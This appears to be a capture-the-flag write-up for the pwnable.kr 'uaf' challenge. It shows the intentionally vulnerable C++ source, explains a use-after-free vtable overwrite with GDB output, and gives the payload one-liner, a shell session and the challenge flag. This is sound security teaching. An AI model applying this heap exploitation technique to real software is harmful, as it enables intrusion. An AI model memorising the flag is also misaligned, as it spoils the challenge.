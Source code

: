 ```yaml
---
title: "Pwnable.kr - uaf"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/pwnable.kr/thumbnails/pwnable.png
ribbon: red
description: "If you don't know enough about these topics or need a refresher, see the references at the end.
This challenge is about exploiting `UAF` (use after free) vulnerability.
First it allocates 2 instances, one `Man` and one `Woman`, both classes..."
categories:
  - Binary Exploitation
---
```


> Challenge description:
>
> Mommy, what is Use After Free bug?



```c++
#include <fcntl.h>
#include <iostream> 
#include <cstring>
#include <cstdlib>
#include <unistd.h>

using namespace std;

class Human{
private:
	virtual void give_shell(){
		system("/bin/sh");
	}
protected:
	int age;
	string name;
public:
	virtual void introduce(){
		cout << "My name is " << name << endl;
		cout << "I am " << age << " years old" << endl;
	}
};

class Man: public Human{
public:
	Man(string name, int age){
		this->name = name;
		this->age = age;
        }
        virtual void introduce(){
		Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
	Human* m = new Man("Jack", 25);
	Human* w = new Woman("Jill", 21);

	size_t len;
	char* data;
	unsigned int op;
	while(1){
		cout << "1. use\n2. after\n3. free\n";
		cin >> op;

		switch(op){
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout << "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}

	return 0;	
}
```

# Prerequisites:

```
- Knowledge of how glibc heap works
- Knowledge of c++ inheritance and vtables
```

If you don't know enough about these topics or need a refresher, see the references at the end.

This challenge is about exploiting `UAF` (use after free) vulnerability.

First it allocates 2 instances, one `Man` and one `Woman`, both classes inherit from `Human` base class so they inherit all the methods (`give_shell()` and `introduce()`).

After that it goes into an infinite loop asking for input, we have 3 choices, the first and third are pretty obvious, what we are interested in is the second option.

The second option reads `argv[1]` bytes of data from the file at `argv[2]` then stores it in `data` variable. Note that `data` array is stored at the heap (using new keyword).

The bug here is that if we choose `3` to delete the allocated instances then choose `1`. we will get a segmentation fault as we are using freed memory, hence `use-after-free`.

I will work with the binary locally, get a working exploit then move to the remote binary, now let's jump into GDB:

[![1](/assets/images/binary-exploitation/pwnable.kr/challenges/uaf/1.png)](/assets/images/binary-exploitation/pwnable.kr/challenges/uaf/1.png)

We need to set a breakpoint after the call to `Man()` constructor and check the heap chunks.

[![2](/assets/images/binary-exploitation/pwnable.kr/challenges/uaf/2.png)](/assets/images/binary-exploitation/pwnable.kr/challenges/uaf/2.png)

We see the new heap chunk created at address `0x614ee0` with size `0x20 = 32`, the size passed to `new()` was `0x18` but the heap manager ensures  that the allocation will be 8-byte aligned on 32 bit systems, or 16-byte aligned on 64 bit systems, hence the size grows to `0x20`.

If we examine this chunk we see the address to **vtable** `0x0000000000401570` and after it we see the value of age `0x0000000000000019` and address of name at `0x0000000000614ec8`.

If we examine the **vtable** we see the addresses of the two virtual functions, `give_shell() at 0x000000000040117a` and `introduce() at 0x00000000004012d2`, so far so good.

Now let's delete the two instances using the third option `3` and check the chunk again:

[![3](/assets/images/binary-exploitation/pwnable.kr/challenges/uaf/3.png)](/assets/images/binary-exploitation/pwnable.kr/challenges/uaf/3.png)

As you can see, the **vtable** address was erased, but if we examine the **vtable** it self we see that it still contains the addresses to the two virtual functions.

If we check the free heap bins, we see the two freed chunks along with their sizes:

[![4](/assets/images/binary-exploitation/pwnable.kr/challenges/uaf/4.png)](/assets/images/binary-exploitation/pwnable.kr/challenges/uaf/4.png)

Now for the exploitation part, finally :)

As we know, the heap manager allocates new chunks from the previously freed chunks if they are same size. So we can use the second option `2` to allocate the `data` array with size of 0x18 (which will be a heap chunk of size 0x20 after the alignment), this array will overwrite Man and Woman chunks so when we use them again using option `1`, we can execute what we want.

Let's write some A's to a test file and see how it goes:

```
$ python -c "print 'A'*0x18" > test
```

[![5](/assets/images/binary-exploitation/pwnable.kr/challenges/uaf/5.png)](/assets/images/binary-exploitation/pwnable.kr/challenges/uaf/5.png)

Notice that we used the second option `2` twice, because the Woman free chunk was at the top of the freed chunks so it will be recycled first and we are targeting Man chunk, so we allocate 2 chunks.

[![6](/assets/images/binary-exploitation/pwnable.kr/challenges/uaf/6.png)](/assets/images/binary-exploitation/pwnable.kr/challenges/uaf/6.png)

As you can see, the two chunks were overwritten and the new **vtable** address is `0x4141414141414141`.

The way `m->introduce()` works is it first accesses the **vtable** address `0x0000000000401570`, it will find two function addresses (give_shell and introduce), so it will call (*vtable)+8.

So to call `give_shell()` instead of `introduce()`, we set the `vtable_address = vtable_address - 8` which ``0x0000000000401568` will be  and we are done.

# Solution:

```
uaf@pwnable:~$ python -c "print '\x68\x15\x40\x00\x00\x00\x00\x00' + 'A'*16" > /tmp/heapooooooo
uaf@pwnable:~$ ./uaf 24 /tmp/heapooooooo
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ id
uid=1029(uaf) gid=1029(uaf) egid=1030(uaf_pwn) groups=1030(uaf_pwn),1029(uaf)
$ cat flag
yay_f1ag_aft3r_pwning
```

Flag: `yay_f1ag_aft3r_pwning`

# References:

[https://shaharmike.com/cpp/vtable-part1/https://shaharmike.com/cpp/vtable-part1/](https://shaharmike.com/cpp/vtable-part1/https://shaharmike.com/cpp/vtable-part1/)

[https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/](https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/)

[https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/](https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/)

[https://sensepost.com/blog/2017/painless-intro-to-the-linux-userland-heap/](https://sensepost.com/blog/2017/painless-intro-to-the-linux-userland-heap/)